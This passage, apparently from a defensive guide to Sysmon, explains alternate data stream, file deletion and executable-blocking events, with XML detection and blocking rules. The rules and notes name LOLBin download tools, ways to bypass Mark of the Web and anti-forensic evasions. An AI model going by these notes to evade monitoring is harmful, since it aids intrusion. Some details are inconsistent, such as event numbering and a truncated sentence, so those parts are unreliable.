            <!-- Exclude Zone.Identifier on non-executable files (reduce noise) -->
            <Rule groupRelation="and">
               <TargetFilename condition="end with">:Zone.Identifier</TargetFilename>
               <TargetFilename condition="not contains">.exe:</TargetFilename>
               <TargetFilename condition="not contains">.dll:</TargetFilename>
               <TargetFilename condition="not contains">.ps1:</TargetFilename>
               <TargetFilename condition="not contains">.bat:</TargetFilename>
               <TargetFilename condition="not contains">.vbs:</TargetFilename>
               <TargetFilename condition="not contains">.msi:</TargetFilename>
            </Rule>

            <!-- Exclude known browsers -->
            <Image condition="contains">chrome.exe</Image>
            <Image condition="contains">firefox.exe</Image>
            <Image condition="end with">msedge.exe</Image>
         </FileCreateStreamHash>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```


**For Non-MOTW ADS (Malicious)**:
1. **Extract the stream**: Identify the file and stream name from TargetFilename
2. **Analyze the content**:
   ```powershell
   Get-Content "C:\path\to\file.txt" -Stream "streamname"
   ```
3. **Check for executable content**: If Hash field is populated, extract and analyze the PE
4. **Identify the creator**: Check Image field - what process created the ADS?
5. **Timeline correlation**: What else was happening when the ADS was created?

**For MOTW Streams (Forensics)**:
1. **Review Contents field**: Extract HostUrl and ReferrerUrl
2. **Check ZoneId**: Was it downloaded from Internet (3) or other zone?
3. **Identify the file**: What was downloaded? (TargetFilename)
4. **Correlate with network logs**: Search for HostUrl in proxy/firewall logs
5. **Check file hash**: Was the downloaded file malicious?
6. **Attribution**: Map HostUrl to known threat infrastructure


**Pattern 1: Hiding Executables**
* TargetFilename contains `:` but doesn't end with `:Zone.Identifier`
* Hash field is populated (executable content)
* Image is PowerShell, CMD, or unknown process

**Pattern 2: Script Hiding**
* Stream names ending in `.ps1`, `.vbs`, `.js`, `.bat`
* Created by Office applications (macro-based)
* Created by scripting engines

**Pattern 3: Anti-Forensics**
* Zone.Identifier deletion (look for File Delete events with `:Zone.Identifier`)
* MOTW stream removed from recently downloaded executables
* Attacker cleaning tracks

**Pattern 4: Malware Delivery**
* MOTW showing download from newly registered domain
* Executable downloaded from suspicious TLD (.tk, .pw, etc.)
* ReferrerUrl from known malicious sites


**Attacker Evasions**:
* Some attackers avoid ADS entirely, knowing it's monitored
* Can delete Zone.Identifier to hide download origin
* May use non-standard download methods that don't create MOTW
* Can use volume shadow copies to hide ADS from live analysis

**Sysmon Limitations**:
* Only logs stream creation, not stream deletion (use File Delete events)
* Does not log stream access or execution
* MOTW only created by specific download methods (urlmon.dll-based)
* Some download tools don't create Zone.Identifier

**MOTW Bypasses**:
* Downloads via curl, wget, or other non-urlmon.dll tools don't create MOTW
* File transfers over RDP, SMB shares don't create MOTW
* Archive extraction doesn't preserve MOTW on contained files


1. **Prioritize Non-MOTW ADS**: These are rare and high-value indicators
2. **Track Executable Downloads**: MOTW on .exe, .dll, .ps1 files provides forensic value
3. **Baseline Your Environment**: Understand normal ADS creation patterns
4. **Correlate with Network Logs**: Use HostUrl/ReferrerUrl to enrich detections
5. **Monitor for MOTW Deletion**: Cross-reference with File Delete events
6. **Maintain Exclusion Lists**: Update browser/email client exclusions as software updates


File stream creation monitoring (EventID 15) provides dual value:
* **Detection**: Catches attackers hiding payloads in Alternate Data Streams
* **Forensics**: Tracks file download origins through Mark of the Web

The moderate volume and high detection value make ADS monitoring essential for:
* Detecting fileless malware techniques
* Tracking malware delivery mechanisms
* Incident response and attribution
* Understanding attacker infrastructure

When configured to exclude legitimate MOTW generation while capturing suspicious ADS creation, this event type delivers high-fidelity detections with strong forensic context.

### File Delete


Sysmon will log **EventID 23** for file deletions, providing critical visibility into file destruction activity. This event type not only logs deletions but also archives the deleted files, allowing defenders to recover and analyze tools, malware, and other artifacts that attackers create and then delete. This is a **moderate-to-high volume event type** that requires careful filtering to capture high-value deletions while avoiding noise from normal system operations.


File deletion monitoring detects critical attack patterns that other event types cannot capture:

**Ransomware Detection**: Ransomware typically follows this pattern:
1. Create encrypted copy of original file
2. Delete the original unencrypted file
3. Repeat across thousands of files rapidly

Monitoring file deletions reveals this pattern before significant damage occurs. High volumes of file deletions in user directories within short time windows is one of the strongest ransomware indicators.

**Wiper Malware**: Destructive attacks that permanently delete files and system components to cause damage and cover tracks. File deletion events help detect wiper software used by nation-state actors and destructive attackers.

**Anti-Forensics**: Attackers delete tools, scripts, and other artifacts after use to remove evidence:
* Deleting droppers/stagers after payload execution
* Removing tools after completing objectives
* Cleaning up temporary files and scripts
* Deleting log files to hide activity

**Data Destruction**: Intentional deletion of backup files, database files, or critical system files as part of an attack.

**MITRE ATT&CK Mapping**:
* **T1485 - Data Destruction** - Wiper malware and destructive attacks
* **T1486 - Data Encrypted for Impact** - Ransomware encryption
* **T1488 - Disk Structure Wipe** - Destructive wiping attacks
* **T1070.004 - Indicator Removal on Host: File Deletion** - Anti-forensics
* **T1490 - Inhibit System Recovery** - Deleting backups and shadow copies


File deletion volume varies dramatically by use case:
* **Unfiltered volume**: Extremely high - thousands to tens of thousands of events per day
* **Normal operations**: Applications, Windows Updates, browsers, and temp file cleanup generate constant deletion activity
* **Filtered volume**: Can be reduced to 100-500 high-value events per day with proper filtering

**Critical Consideration**: The event includes file archiving by default. This means deleted files are copied to the Sysmon archive directory before deletion. This provides immense forensic value but has storage implications:
* Archived files consume disk space in the archive directory
* High-volume deletions can fill disk space quickly
* You must monitor archive directory size and implement retention policies
* Consider using EventID 26 (File Delete Detected, without archiving) for high-volume, low-value deletions

**Recommended Filtering Approach**: Target specific file types and locations that matter for security:
* Executable files (.exe, .dll, .sys) in suspicious locations
* Script files (.ps1, .bat, .vbs, .js) anywhere
* Office documents with macros (.docm, .xlsm)
* Archive files (.zip, .rar, .7z) from temp directories
* Database and backup files
* Multiple deletions in rapid succession (SIEM-side detection)


Sysmon uses a minifilter driver to monitor file system activity. The minifilter monitors three I/O request packets (IRP):
* **IRP_MJ_CREATE** - File creation
* **IRP_MJ_CLEANUP** - Handle closure
* **IRP_MJ_WRITE** - File writes

When a file is marked for deletion, Sysmon intercepts this event and can archive the file before it's permanently removed.


**Important Limitation**: Like all minifilter-based monitoring, if any security software with a lower altitude number (higher priority) blocks or modifies the file deletion, Sysmon may not observe or archive the file correctly.


The archive directory stores copies of deleted files, providing critical forensic evidence. Proper configuration is essential:

**Setting the Archive Directory:**
* Specified in XML configuration: `<ArchiveDirectory>folder_name</ArchiveDirectory>`
* Or via registry: Set **FilterArchiveDirectory** value under the driver registry key parameters
* Default location if not specified: `C:\Sysmon\`

**Version-Specific Behavior:**
* **Sysmon 11.0**: Requires `-a <folder name>` command-line parameter during install, otherwise uses default "Sysmon" folder even if XML specifies different name
* **Sysmon 11.1 and later**: The `-a` parameter was removed; archive directory must be specified in XML configuration or default is used

**Archive Directory Security:**
The archive directory is protected by SYSTEM ACL to prevent tampering:

```
PS C:\> (Get-Acl C:\Sysmon\).access

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

To access archived files, use PsExec to spawn a SYSTEM-level shell:
```
PsExec.exe -sid cmd
```

**Archive Directory Management:**
* Monitor disk space consumption
* Implement retention policies (delete old archived files)
* Consider separate volume for archive directory on high-activity systems
* Regularly review archived files for malware and tools
* Hash archived executables and submit to threat intelligence platforms


When reviewing file deletion events, prioritize investigation of:

**1. High Volume of Deletions (Ransomware Indicator)**
* Many files deleted from user directories within minutes
* Deletions spanning multiple file types and folders
* Particularly suspicious: `.doc`, `.xls`, `.pdf`, database files
* Cross-reference with file creation events for encrypted file extensions (`.encrypted`, `.locked`, `.crypto`)

**2. Suspicious File Types Deleted**
* Executables (`.exe`, `.dll`) from temp directories or downloads
* PowerShell scripts (`.ps1`, `.psm1`) anywhere
* Batch files (`.bat`, `.cmd`)
* VBScript/JavaScript (`.vbs`, `.js`, `.jse`)
* Macro-enabled Office files (`.docm`, `.xlsm`, `.pptm`)

**3. Deletions from Suspicious Locations**
* `\Downloads\` - Tools downloaded and then deleted
* `\AppData\Local\Temp\` - Droppers deleting themselves
* `\AppData\Roaming\` - Persistence mechanisms removing artifacts
* `\Content.Outlook\` - Email attachments deleted after execution
* `\Windows\Temp\` - System-level temp file deletions (especially by non-system processes)

**4. Backup and Shadow Copy Deletions**
* Volume shadow copy deletions (attackers disabling recovery)
* Database backup file deletions (`.bak`, `.backup`)
* System state backups
* Usually performed via `vssadmin.exe` or `wmic.exe` (check Process Creation events)

**5. Deletions by Suspicious Processes**
* PowerShell, CMD, or scripting engines deleting files
* Processes from temp or download directories
* Recently created processes (staging malware)
* Office applications deleting executable files (macro-based attack cleanup)

**6. Timing Patterns**
* Deletions immediately after file creation (dropper behavior)
* Deletions during off-hours
* Deletions correlating with other suspicious activity (lateral movement, credential access)


The file delete event fields are:

* **RuleName**: Name of rule that triggered the event
* **UtcTime**: Time in UTC when event was created
* **ProcessGuid**: Process GUID of the process that deleted the file
* **ProcessId**: Process ID used by the OS to identify the process that deleted the file
* **Image**: File path of the process that deleted the file
* **TargetFilename**: Name of the file that was deleted
* **Hashes**: Full hash of the file with the algorithms in the HashType field. This is also the filename of the archived file in the ArchiveDirectory
* **Archived**: States whether the archival action was successful (`true` or `false`)


**Example 1: Monitor High-Value File Types in Suspicious Locations**

This configuration focuses on executables, scripts, and office files in locations commonly used by attackers:

```xml
<Sysmon schemaversion="4.30">
    <ArchiveDirectory>SysmonArchive</ArchiveDirectory>
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDelete onmatch="include">
                <!-- Target suspicious locations -->
                <Rule groupRelation="and">
                    <Rule groupRelation="or">
                        <TargetFilename condition="contains">\Downloads\</TargetFilename>
                        <TargetFilename condition="contains">\Content.Outlook\</TargetFilename>
                        <TargetFilename condition="contains">\AppData\Local\Temp\</TargetFilename>
                        <TargetFilename condition="contains">\AppData\Roaming\</TargetFilename>
                        <TargetFilename condition="begin with">C:\Windows\Temp\</TargetFilename>
                    </Rule>
                    <!-- AND high-value file extensions -->
                    <TargetFilename condition="end with any">.exe;.dll;.ps1;.bat;.cmd;.vbs;.js;.jse;.hta;.msi</TargetFilename>
                </Rule>
            </FileDelete>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 2: Ransomware Detection - Monitor User Document Deletions**

This configuration detects mass deletion of user files, a primary ransomware indicator:

```xml
<Sysmon schemaversion="4.30">
    <ArchiveDirectory>SysmonArchive</ArchiveDirectory>
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDelete onmatch="include">
                <!-- User directories -->
                <Rule groupRelation="and">
                    <TargetFilename condition="contains any">\Users\;\Documents\;\Desktop\;\Pictures\</TargetFilename>
                    <!-- Common document/data file extensions -->
                    <TargetFilename condition="end with any">.doc;.docx;.xls;.xlsx;.ppt;.pptx;.pdf;.txt;.jpg;.png;.zip</TargetFilename>
                </Rule>
            </FileDelete>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 3: Anti-Forensics Detection - Scripts and Tools**

Focus on deletions that suggest cleanup activity:

```xml
<Sysmon schemaversion="4.30">
    <ArchiveDirectory>SysmonArchive</ArchiveDirectory>
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDelete onmatch="include">
                <!-- All script files anywhere -->
                <TargetFilename condition="end with">.ps1</TargetFilename>
                <TargetFilename condition="end with">.bat</TargetFilename>
                <TargetFilename condition="end with">.cmd</TargetFilename>
                <TargetFilename condition="end with">.vbs</TargetFilename>
                <TargetFilename condition="end with">.js</TargetFilename>

                <!-- Executables from non-Program Files locations -->
                <Rule groupRelation="and">
                    <TargetFilename condition="end with">.exe</TargetFilename>
                    <TargetFilename condition="not begin with">C:\Program Files</TargetFilename>
                    <TargetFilename condition="not begin with">C:\Windows\</TargetFilename>
                </Rule>
            </FileDelete>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 4: Comprehensive Approach with Exclusions**

Start broader and exclude known-good deletion patterns:

```xml
<Sysmon schemaversion="4.30">
    <ArchiveDirectory>SysmonArchive</ArchiveDirectory>
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDelete onmatch="exclude">
                <!-- Exclude browser cache and temp files -->
                <TargetFilename condition="contains">\AppData\Local\Microsoft\Windows\Temporary Internet Files\</TargetFilename>
                <TargetFilename condition="contains">\AppData\Local\Google\Chrome\User Data\Default\Cache\</TargetFilename>
                <TargetFilename condition="contains">\AppData\Local\Mozilla\Firefox\Profiles\</TargetFilename>

                <!-- Exclude Windows Update cleanup -->
                <Image condition="is">C:\Windows\System32\usocoreworker.exe</Image>
                <Image condition="is">C:\Windows\System32\svchost.exe</Image>

                <!-- Exclude common file extensions with high noise -->
                <TargetFilename condition="end with any">.tmp;.log;.etl;.old</TargetFilename>
            </FileDelete>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```


**Critical Vulnerability in Sysmon 11.0, 11.1, and 12.0**: A code execution vulnerability exists in these versions where an attacker with local administrative privileges can leverage a bug in how Sysmon handles File Delete events in memory. This allows arbitrary kernel writes where attackers can execute code with kernel-level privileges.

**Vulnerable Driver SHA256 Hashes:**
* 35c67ac6cb0ade768ccf11999b9aaf016ab9ae92fb51865d73ec1f7907709dca
* d2ed01cce3e7502b1dd8be35abf95e6e8613c5733ee66e749b972542495743b8
* a86e063ac5214ebb7e691506a9f877d12b7958e071ecbae0f0723ae24e273a73
* c0640d0d9260689b1c6c63a60799e0c8e272067dcf86847c882980913694543a
* 2a5e73343a38e7b70a04f1b46e9a2dde7ca85f38a4fb2e51e92f252dad7034d4
* 98660006f0e923030c5c5c8187ad2fe1500f59d32fa4d3286da50709271d0d7f
* 7e1d7cfe0bdf5f17def755ae668c780dedb027164788b4bb246613e716688840

**Mitigation**: Update to Sysmon 13.0 or later immediately. Monitor for these driver hashes using EventID 6 (Driver Load) events and alert on any attempts to load vulnerable versions.


Sysmon also provides **EventID 26 (File Delete Detected)** which logs file deletions **without archiving** the deleted files. Use EventID 26 instead of EventID 23 when:
* Deletion volume is very high and archiving would consume too much disk space
* File types are large (ISO images, archives) making archiving impractical
* You want to log deletions for detection but don't need file recovery capability

See the File Delete Detected chapter for EventID 26 configuration guidance.

### File Delete Detected


Sysmon will log **EventID 26** for file deletions **without archiving** the deleted files. This event type was added in Sysmon version 13.10 and provides the same detection visibility as EventID 23 (File Delete) but without the storage overhead of file archiving. This is ideal for high-volume deletion monitoring where file recovery isn't necessary or where deleted file sizes make archiving impractical.


EventID 26 provides the same detection value as EventID 23 (File Delete with Archiving):
* Ransomware detection through mass file deletion patterns
* Wiper malware and data destruction attacks
* Anti-forensics activity (attackers deleting tools and artifacts)
* Backup and shadow copy deletion monitoring

The key difference is operational rather than detection-focused: **no files are archived**, which means:
* Significantly reduced disk space consumption
* Suitable for very high-volume deletion monitoring
* No file recovery capability
* Useful for detection-only scenarios where you don't need to analyze deleted files


Use **EventID 26 (File Delete Detected, no archiving)** when:
* **High deletion volume**: Environments where archiving would generate gigabytes of data daily
* **Large file types**: Monitoring deletions of ISO images, archive files, or other large files that would fill the archive directory quickly
* **Detection-only goals**: You want to detect deletion patterns (ransomware, cleanup activity) but don't need to recover or analyze the deleted files
* **Storage constraints**: Limited disk space makes archiving impractical
* **Known false positives**: You've identified high-value deletion patterns that generate many false positives, but you still want detection visibility

Use **EventID 23 (File Delete with Archiving)** when:
* **Malware recovery**: You need to capture and analyze attacker tools and scripts that are deleted after execution
* **Forensic evidence**: File recovery capability is critical for incident response
* **Low volume**: Deletion volume is manageable and won't overwhelm storage
* **High-value targets**: Monitoring specific file types (executables, scripts) where file recovery is valuable

**Best Practice**: Use both event types together:
* EventID 23 for high-value, low-volume deletions (executables and scripts in suspicious locations)
* EventID 26 for broader coverage where archiving isn't needed (user documents for ransomware detection, large files)


EventID 26 uses the same minifilter driver mechanism as EventID 23. The minifilter monitors for file system I/O request packets (IRP):
* **IRP_MJ_CREATE** - File creation
* **IRP_MJ_CLEANUP** - Handle closure
* **IRP_MJ_WRITE** - File writes

When a file is marked for deletion, Sysmon logs the event but **skips the archival step**, making it much more performant for high-volume scenarios.


**Important Limitation**: Like EventID 23, if any security software with a lower altitude number (higher priority in the driver stack) blocks or modifies the file deletion before Sysmon observes it, the event may not be logged.


The file delete detected event fields are:

* **RuleName**: Name of rule that triggered the event
* **UtcTime**: Time in UTC when event was created
* **ProcessGuid**: Process GUID of the process that deleted the file
* **ProcessId**: Process ID used by the OS to identify the process that deleted the file
* **Image**: File path of the process that deleted the file
* **TargetFilename**: Name of the file that was deleted
* **Hashes**: Full hash of the file with the algorithms in the HashType field (same as EventID 23, but file is not saved to archive)

Note that the **Archived** field is not present in EventID 26, as no archiving occurs.


Investigation priorities are identical to EventID 23 (File Delete):

**1. High Volume of Deletions (Ransomware)**
* Many files deleted rapidly from user directories
* Deletions spanning multiple folders and file types
* Document file deletions (`.doc`, `.xls`, `.pdf`, etc.)

**2. Suspicious File Types Deleted**
* Executables, scripts, Office macros in any location
* Tools and utilities from temp directories

**3. Deletions from Suspicious Locations**
* Downloads, temp directories, user AppData folders
* Email attachment temporary storage

**4. Backup and Recovery Inhibition**
* Shadow copy deletions, backup file deletions
* Usually correlates with `vssadmin.exe` or `wmic.exe` process activity

**5. Deletions by Suspicious Processes**
* PowerShell, CMD, scripting engines
* Recently created or unsigned processes
* Office applications deleting executables

**6. Timing and Correlation**
* Deletions immediately after file creation
* Deletions during off-hours
* Correlation with other suspicious events


**Example 1: Ransomware Detection with EventID 26 (No Archiving)**

Monitor user document deletions without archiving to avoid storage overhead:

```xml
<Sysmon schemaversion="4.30">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDeleteDetected onmatch="include">
                <!-- User data directories -->
                <Rule groupRelation="and">
                    <TargetFilename condition="contains any">\Users\;\Documents\;\Desktop\;\Pictures\;\Downloads\</TargetFilename>
                    <!-- Common document and data file types -->
                    <TargetFilename condition="end with any">.doc;.docx;.xls;.xlsx;.ppt;.pptx;.pdf;.txt;.jpg;.png;.gif;.mp4;.avi</TargetFilename>
                </Rule>
            </FileDeleteDetected>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 2: Combined Approach - Use Both EventID 23 and 26**

Use EventID 23 for executables/scripts (archive for forensics) and EventID 26 for documents (detection only):

```xml
<Sysmon schemaversion="4.30">
    <ArchiveDirectory>SysmonArchive</ArchiveDirectory>
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <!-- EventID 23: Archive executables and scripts -->
            <FileDelete onmatch="include">
                <TargetFilename condition="end with any">.exe;.dll;.ps1;.bat;.cmd;.vbs;.js;.hta</TargetFilename>
            </FileDelete>

            <!-- EventID 26: Detect document deletions without archiving -->
            <FileDeleteDetected onmatch="include">
                <Rule groupRelation="and">
                    <TargetFilename condition="contains">\Users\</TargetFilename>
                    <TargetFilename condition="end with any">.doc;.docx;.xls;.xlsx;.pdf;.zip;.rar</TargetFilename>
                </Rule>
            </FileDeleteDetected>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 3: Large File Deletion Monitoring (ISO, IMG, Archive Files)**

Monitor deletion of large files that would be impractical to archive:

```xml
<Sysmon schemaversion="4.30">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDeleteDetected onmatch="include">
                <!-- Large file types - detection only, no archiving -->
                <TargetFilename condition="end with any">.iso;.img;.vhd;.vhdx;.vmdk;.ova</TargetFilename>

                <!-- Large archives -->
                <TargetFilename condition="end with any">.zip;.rar;.7z;.tar;.gz</TargetFilename>
            </FileDeleteDetected>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 4: Exclusion-Based Approach for Broad Coverage**

Log most deletions but exclude known noisy patterns:

```xml
<Sysmon schemaversion="4.30">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <FileDeleteDetected onmatch="exclude">
                <!-- Exclude browser caches and temp files -->
                <TargetFilename condition="contains">\AppData\Local\Microsoft\Windows\Temporary Internet Files\</TargetFilename>
                <TargetFilename condition="contains">\AppData\Local\Google\Chrome\User Data\Default\Cache\</TargetFilename>
                <TargetFilename condition="contains">\AppData\Local\Mozilla\Firefox\Profiles\</TargetFilename>

                <!-- Exclude Windows and application temp files -->
                <TargetFilename condition="end with any">.tmp;.temp;.log;.etl;.bak~;.old</TargetFilename>

                <!-- Exclude known system cleanup processes -->
                <Image condition="is">C:\Windows\System32\usocoreworker.exe</Image>
                <Image condition="is">C:\Windows\System32\dism.exe</Image>
            </FileDeleteDetected>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```


EventID 26 is specifically designed for scenarios where EventID 23's archiving would create operational challenges:

**Storage Savings:**
* No archive directory needed for EventID 26 monitoring
* Typical ransomware attack deleting 10,000 files: EventID 23 might archive 500MB-5GB, EventID 26 generates only log events (~2MB of event data)
* Large file deletions (ISOs, backups): Can save hundreds of gigabytes

**Performance:**
* EventID 26 has minimal performance overhead (just logging)
* EventID 23 requires file copy operations which can impact system performance during mass deletions
* On systems with high deletion rates, EventID 26 may be the only practical option

**Best Practice Strategy:**
1. Start with targeted EventID 23 rules for high-value, low-volume file types (executables, scripts)
2. Add broader EventID 26 rules for detection patterns (user documents, large files)
3. Monitor archive directory size if using EventID 23
4. Shift rules from EventID 23 to EventID 26 if archiving becomes impractical


EventID 26 helps detect the same techniques as EventID 23:
* **T1485 - Data Destruction** - Wiper malware and destructive attacks
* **T1486 - Data Encrypted for Impact** - Ransomware encryption
* **T1488 - Disk Structure Wipe** - Destructive wiping attacks
* **T1070.004 - Indicator Removal on Host: File Deletion** - Anti-forensics
* **T1490 - Inhibit System Recovery** - Deleting backups and shadow copies

The difference is operational (archiving vs no archiving) rather than detection capability.

### File Block EXE


On version 14.0 of Sysmon the capability to block the creation of executables by a process was added, this is the first event type where Sysmon takes a block action on a rule match. Sysmon relies on its filter driver, Sysmon can log the creation of files and information on what process is the the file using **EventID 27**. This event type is found under schema version 


The minidriver inspect the header of the file for the MZ DOS Executable header. The file can be identified by the ASCII string "MZ" (hexadecimal: 4D 5A) at the beginning of the file (the "magic number"). "MZ" are the initials of Mark Zbikowski, one of the leading developers of MS-DOS. This header is included in DLLs, PE Files, COM executables and other executable types.

Sysmon will not generate any alert on screen for the user once it takes the action. 


The file delete event fields are:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process Guid of the process that attempted to create the file

* **ProcessId**: Process ID used by the OS to identify the process that attempted to create the file.

* **Image**: File path of the process that attempted to create the file

* **TargetFilename**: Name of the file that is being created.

**Hashes**: Full hash of the file with the algorithms in the HashType field. This is also the filename of the saved file in the ArchiveDirectory


Given the potential for this specific rule set to cause friction between a security team with users and other groups in the organization it is recommended to test before deploying. One recommendation is to use a file creation rule set to build a baseline of what executables are create where as part of normal day to day operations and then take that data to build a rule set that will minimize impact. 

A sample baseline ruleset can be:

```XML
<Sysmon schemaversion="4.82">
  <HashAlgorithms>sha1</HashAlgorithms>
  <CheckRevocation/>
  <EventFiltering>
    <RuleGroup name="File Creation" groupRelation="or">
      <FileCreate onmatch="include">
        <TargetFilename name="executables" condition="contains any">.dll;.exe</TargetFilename>
      </FileCreate>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

Bellow is an example rule set that covers some of the most common scenarios where actors will drop executables using malicious documents, in emails, 

```XML
<Sysmon schemaversion="4.82">
  <HashAlgorithms>sha1</HashAlgorithms>
  <CheckRevocation/>
  <EventFiltering>
    <RuleGroup name="File Block Exe" groupRelation="or">
      <FileBlockExecutable onmatch="include">
        <!-- Primary -->
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">excel.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">winword.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">powerpnt.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">outlook.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">msaccess.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">mspub.exe</Image>
        
        <!-- Scripting Engines -->
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">powershell.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">mshta.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">cscript.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">wscript.exe</Image>

        <!-- LOLBins -->
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">certutil.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">esenutl.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">desktopimgdownldr.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">regsvr32.exe</Image>
        <Image name="technique_id=T1105,technique_name=Ingress Tool Transfer" condition="image">Odbcconf.exe</Image>
      </FileBlockExecutable>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

### File Block Shredding


On version 14.1 of Sysmon the capability to log and block when a process is deleting a file by overwriting its file blocks. Events will be loggedusing **EventID 27**. This event type is found under schema version 4.83.


The minidriver inspect the action that is being taken to see if it is a file block overwrite and if the header of the file for the MZ DOS Executable header. Some common processes on system that perform actions that may generate some false positives if all instances of the action is blocked. If this approach is follower a exclusion list should be used. An example of these are:

```xml
      <FileBlockShredding onmatch="exclude">
        <Rule groupRelation="and">
          <Image condition="is">C:\WINDOWS\System32\svchost.exe</Image>
          <User condition="is">NT AUTHORITY\LOCAL SERVICE</User>
        </Rule>
        <Rule groupRelation="and">
          <Image condition="is">C:\WINDOWS\System32\svchost.exe</Image>
          <User condition='is'>NT AUTHORITY\SYSTEM</User>
        </Rule>
        <Rule groupRelation="and">
          <Image condition='is'>C:\WINDOWS\system32\SearchIndexer.exe</Image>
          <User condition='is'>NT AUTHORITY\SYSTEM</User>
        </Rule>
        <Rule groupRelation="and">
          <Image condition='is'>C:\WINDOWS\system32\lsass.exe</Image>
          <User condition='is'>NT AUTHORITY\SYSTEM</User>
        </Rule>
        <Rule groupRelation="and">
          <Image condition='end with'>\MsMpEng.exe</Image>
          <User condition='is'>NT AUTHORITY\SYSTEM</User>
        </Rule>
        <Rule groupRelation="or">
          <Image condition='is'>C:\WINDOWS\system32\DllHost.exe</Image>
          <Image condition='end with'>\Dropbox\Client\Dropbox.exe</Image>
          <Image condition='is'>C:\WINDOWS\system32\backgroundTaskHost.exe</Image>
          <Image condition='end with'>\AppData\Local\Programs\Microsoft VS Code\Code.exe</Image>
          <Image condition='is'>C:\Program Files\BraveSoftware\Brave-Browser\Application\brave.exe</Image>
          <Image condition='end with'>\Microsoft\Edge\Application\msedge.exe</Image>
          <Image condition='end with'>\1Password.exe</Image>
          <Image condition='is'>C:\Windows\ImmersiveControlPanel\SystemSettings.exe</Image>
          <Image condition='is'>C:\WINDOWS\system32\taskhostw.exe</Image>
        </Rule>
      </FileBlockShredding>
```
It is recommended to better block those files that an attacket would like to delete so as to hide their tracks that where part of a compromise at several stages. Now great care should be taken for those applications that update themself and some software management solutions that may trigger false positives for some of the files covered. Since this is a blocking action it is important to test before a configuration is pushed to host, after a deployment it is also important to minitor to prevent disruption in some environments. 

```XML
<RuleGroup name="" groupRelation="or">
       <FileBlockShredding onmatch="include">
          <TargetFilename condition="end with">.sys</TargetFilename>                <!--Driver file.-->
          <TargetFilename condition="end with">.rft</TargetFilename>
          <TargetFilename condition="end with">.jsp</TargetFilename>
          <TargetFilename condition="end with">.jspx</TargetFilename>
          <TargetFilename condition="end with">.asp</TargetFilename>
          <TargetFilename condition="end with">.aspx</TargetFilename>
          <TargetFilename condition="end with">.php</TargetFilename>
          <TargetFilename condition="end with">.war</TargetFilename>
          <TargetFilename condition="end with">.ace</TargetFilename>
          <TargetFilename condition="end with">.iqy</TargetFilename>
	  <TargetFilename condition="end with">.slk</TargetFilename>
          <TargetFilename condition="end with">.docm</TargetFilename>				        <!--Microsoft:Office:Word: With Macro-->
          <TargetFilename condition="end with">.pptm</TargetFilename>				        <!--Microsoft:Office:PowerPoint: With Macro-->
          <TargetFilename condition="end with">.xlsm</TargetFilename>				        <!--Microsoft:Office:Excel: With Macro-->
          <TargetFilename condition="end with">.xlm</TargetFilename>				        <!--Microsoft:Office:Excel: Legacy Excel With Macro-->
          <TargetFilename condition="end with">.dotm</TargetFilename>			        	<!--Microsoft:Office:Word: Template With Macro-->
          <TargetFilename condition="end with">.xltm</TargetFilename>				        <!--Microsoft:Office:Excel: Template With Macro-->
          <TargetFilename condition="end with">.potm</TargetFilename>				        <!--Microsoft:Office:PowerPoint: Template With Macro-->
          <TargetFilename condition="end with">.ppsm</TargetFilename>				        <!--Microsoft:Office:PowerPoint: Slideshow With Macro-->
          <TargetFilename condition="end with">.sldm</TargetFilename>				        <!--Microsoft:Office:PowerPoint: Slide With Macro-->
          <TargetFilename condition="end with">.xlam</TargetFilename>				        <!--Microsoft:Office:Excel: Add-in Possibly With Macro-->
          <TargetFilename condition="end with">.xla</TargetFilename>                <!--Microsoft:Office:Excel: Add-in Possibly With Macro-->
          <TargetFilename condition="end with">.xll</TargetFilename>                <!--Microsoft:Office:Excel: Add-in Possibly With Macro-->
          <TargetFilename condition="end with">.settingcontent-ms</TargetFilename>  <!--Microsoft:Windows:SettingContent-MS (https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39)-->
          <TargetFilename condition="end with">.application</TargetFilename>				<!--Microsoft:ClickOnce: [ https://blog.netspi.com/all-you-need-is-one-a-clickonce-love-story/ ] -->
